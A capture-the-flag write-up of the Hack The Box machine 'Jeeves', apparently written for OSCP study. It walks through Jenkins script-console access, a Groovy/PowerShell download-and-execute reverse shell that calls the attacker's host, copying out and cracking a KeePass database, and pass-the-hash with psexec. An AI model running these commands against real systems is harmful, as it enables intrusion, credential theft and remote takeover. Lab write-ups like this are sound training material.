 ```yaml
---
title: "Hack The Box - Jeeves"
date: 2020-02-06
tags: [oscp, htb, windows]
collection: oscp-prep
published: true
layout: single
classes: wide
toc: true
toc_label: Table of Contents
headline: "Jenkins Groovy script, KeePass DB cracking, and Alternate Data Streams"
picture: /assets/htb-jeeves/machine_info.png
author_profile: true
---
```


![](/assets/htb-jeeves/machine_info.png)

## Enumeration

Nmap scans show that ports 80, 135, 445, and 50000 are open. The HTTP server on port 80 shows as IIS 10.0, which means we're looking at either Windows 10, Server 2016, or Server 2019.

```
Nmap scan report for 10.10.10.63
Host is up, received user-set (0.049s latency).
Not shown: 65531 filtered ports
Reason: 65531 no-responses
PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
445/tcp   open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         syn-ack Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5h00m46s, deviation: 0s, median: 5h00m46s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-02-06T00:15:50
|_  start_date: 2020-02-05T23:51:53

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 168.85 seconds
```

### Port 80

Navigating to the page on port 80 shows a search bar from Ask Jeeves.

![](/assets/htb-jeeves/port80_search.png)

However, when a search is run, we get the same error each time.

![](/assets/htb-jeeves/port80_error.png)

If we look at the source code for the error page, we can see that what we're seeing is just a static image, not a real error.

```html
<img src="jeeves.PNG" width="90%" height="100%">
```

Andditioal scans with `dirsearch` and `nikto` show no additional subdirectories, or interesting endpoints to check out.

### Port 50000

Running `dirsearch` on port 50000 shows a subdirectory for `/askjeeves`, which leads to a control panel for Jenkins.

![](/assets/htb-jeeves/ask_jeeves_home.png)

Digging into Jenkins page (*Manage Jenkins > About Jenkins*) allows us to see that we're looking at version 2.87 of the software. However, Exploit-DB doesn't show an exact match for this version.

---

## Initial Shell

### Groovy Script

In looking through the Jenkins tools available in the *Manage Jenkins* page, we can see the option for *Script Console*.

![](/assets/htb-jeeves/jenkins_script_console.png)

This page allows us to run a custom Groovy script on the server. We can exploit this to grab a good reverse shell. To do this, we'll need the Nishang github repo copied locally, as we'll need to grab a file from it, and host it, so that our code can reach out for it via Powershell to run.

Copy the Nishang `Invoke-PowerShellTcp.ps1` script to your working directory with:

```bash
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 rev.ps1
```

We need to modify it, to set it up for auto-execution, instead of just loading modules to memory. Copy the below command into the last line of the script:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 7500
```

Now just setup a Python SimpleHTTPServer on port 80 with `python -m SimpleHTTPServer 80`

We can use the below code in the Groovy console to generate a reverse shell console when run.

```groovy
cmd = """ powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15/rev.ps1')" """
println cmd.execute().text
```

![](/assets/htb-jeeves/jenkins_script_groovy_run.png)

Make sure to start a listener with `nc -lvnp 7500` before pasting the script and running it.

![](/assets/htb-jeeves/initial_shell.png)

And just like that, we have our initial shell on the target.

---

## Privilege Escalation

### Cracking a KeePass Database

As we go enumerating, we can see in the `C:\Users\kohsuke]Documents\` directory, a file named `CEH.kdbx`, which is a KeePass credential file. We can copy this to our machine, and crack it locally.

To copy, we can setup a simple DMB Server on our machine with `impacket-smbserver kali .`, and copy the file to us with `copy CEH.kdbx \\10.10.14.15\kali\CEH.kdbx`.

![](/assets/htb-jeeves/impacket_copy_keepass.png)

Now that the file is local, we can get a crackable hash form it with `keepass2john CEH.kdbx > CEH.hash`. This will output a hash that `hashcat` will recognize, and can work with to crack.

![](/assets/htb-jeeves/keepass2john.png)

> NOTE: For `hashcat` to properly read the hash, you'll have to edit the `CEH.hash` file, and remove the leading `CEH:` before the actual hash.

Now that we have the hash, we need to feed it to `hashcat` for cracking. We can use the command  `hashcat -m 13400 CEH.hash ~/wordlists/rockyou.txt --force` to crack it.

![](/assets/htb-jeeves/kp_cracked.png)

We have cracked the password for the KeePass database as `moonshine1`. We will need to install `keepass2` from the Kali repos in order to open it. Use `sudo apt install keepass2` to install, and just double-click on the KDBX file when done. Enter `moonshine1` as the master password, and the file will open up.

![](/assets/htb-jeeves/keepass2_open.png)

![](/assets/htb-jeeves/keepass2_list.png)

### Pass the Hash

In the list of credentials, we see some interesting possibilities for potential Admin passwords. We can try using these with `impacket-psexec Administrator@10.10.10.63`, and entering the password when prompted. As you can see, none of the passwords work.

![](/assets/htb-jeeves/psexec_fail.png)

If we look at the last entry in the list, it gives a simple ? as a username, and a long string as password. This is far too long to be a password. It actually looks like a hash. If this is the case, we might be able to use PSEXec via a Pass-the-hash attack, where we supply the hash instead of the password. We can test this with `impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.10.10.63`.

![](/assets/htb-jeeves/root_shell.png)

Sure enough, our PTH attack worked, and we got a shell as `SYSTEM`! All that's left is to grab the `root.txt` flag from `C:\Users\Administrator\Desktop\root.txt`. 

### But wait, there's more!

When we pull up the listing for the Administrators Desktop directory, we don't see `root.txt`, only `hm.txt`, which reads an output of `The flag is elsewhere.  Look deeper.`.

This seems like the flag is hidden within an Alternate Data Stream, within `hm.txt`. We can verify this with `dir /r`, which shows that in fact, `root.txt` is within `hm.txt` as an ADS.

![](/assets/htb-jeeves/root_ads.png)

Powershell has a built-in function to read ADS. We can use the command `powershell (Get-Content hm.txt -Stream root.txt)` to display the contents of the ADS.

![](/assets/htb-jeeves/root_proof.png)



